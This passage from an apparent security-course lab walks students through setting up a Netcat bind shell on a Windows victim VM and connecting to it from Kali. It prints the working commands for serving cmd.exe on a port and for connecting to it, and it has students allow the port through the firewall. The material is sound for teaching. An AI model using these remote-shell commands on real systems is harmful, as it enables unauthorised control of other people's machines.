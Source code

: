 ```bash
nc.exe -h
```

==action: Start a Netcat listener that will feed all interaction to a command prompt:==

```bash
nc.exe -l -p 31337 -e cmd.exe -vv
```

> Note: If prompted by Windows firewall, allow the connection by selecting all networks and click "Allow access".

![Windows Firewall Dialogue][firewall_dialogue]

Based on the output from the previous command, figure out the meaning of each of the arguments to this above command. For example, “-l” tells Netcat to listen as a service, rather than connect as a client to an existing service.

Note: obviously, in real attacks you won't be setting this up manually on the victim’s system, you use an exploit to get the payload onto their system. We will get to that soon.

==VM: On the Kali Linux VM (the attacker)==, ==action: open a terminal by clicking the console icon.==

==action: Connect to the bind shell that is running on port 31337 of your victim's system:==

```bash
nc ==edit:IP-address-noted-earlier== 31337
```

> Note: If prompted on the target system by Windows firewall, allow the connection. Once you close this connection the Netcat running on the victim will also close, if you want to try again, you also need to repeat the previous command.

The attacker now has shell access to the victim's system. ==action: Type a few commands (for example: "dir", and "net user"), to confirm you have remote control over the system.==

Before moving on, let’s demonstrate something simple that can be done with this kind of access: 

==VM: On the Kali Linux VM (the attacker)==, you should see the Windows command prompt within your terminal, showing where you are within the victim's system. ==action: Navigate to the Desktop (hint: "cd Desktop") and enter the following to create a file:==

```bash
echo Good thing this isn't malware! > not_malware.txt
```

==VM: On the Windows Victim VM (the victim)==, ==action: check the desktop==. You should see a new file (with a name that is a little suspicious…). ==action: Open this file to see the message we created from Kali==. Although this is a benign file, we could have created something far worse, such as malware that would trigger when the victim opens it.

The important thing to note is that with a bind shell the target listens to a port, and the attacker then connects through to the shell. This is illustrated below.

![Bind Shell Concept][bind_shell]
*Bind shell: attacker connects to port on victim*

The main limitation with this approach, is that nowadays Firewalls and NAT routing often prevents any *incoming* network connections that are not already established, unless there is a reason to allow incoming connections on certain ports: for example, if the system is a server it needs to be allowed to accept connections to some ports. Score one for the good guys...


[^1]:  Arbitrary code execution is not just something that affects desktop operating systems. Resourceful gamers have shown that certain titles, such as Castlevania: Symphony of the Night or The Legend of Zelda: Ocarina of Time have ways of organising your character’s inventory or giving save files specific names so the system reads them as code, essentially hacking the games in real-time and giving players advantages that were never intended by the developers.
[^2]:  Remember we are exploiting a vulnerability of the Adobe Reader application, so use Adobe Reader and not Chrome to open the PDF file.
[bind_shell]: {{ site.baseurl }}/assets/images/introducing_attacks/3_vulnerabilities/bind_shell.png
[vm_launch_icon]: {{ site.baseurl }}/assets/images/common/vm_launch_icon.png
[firewall_dialogue]: {{ site.baseurl }}/assets/images/introducing_attacks/3_vulnerabilities/firewall_dialogue.png
[linux_victim_server_vm]: {{ site.baseurl }}/assets/images/introducing_attacks/3_vulnerabilities/linux_victim_server_vm.png
[bind_shell_blocked]: {{ site.baseurl }}/assets/images/introducing_attacks/3_vulnerabilities/bind_shell_blocked.png
[reverse_shell]: {{ site.baseurl }}/assets/images/introducing_attacks/3_vulnerabilities/reverse_shell.png
[msf_interfaces]: {{ site.baseurl }}/assets/images/introducing_attacks/3_vulnerabilities/msf_interfaces.png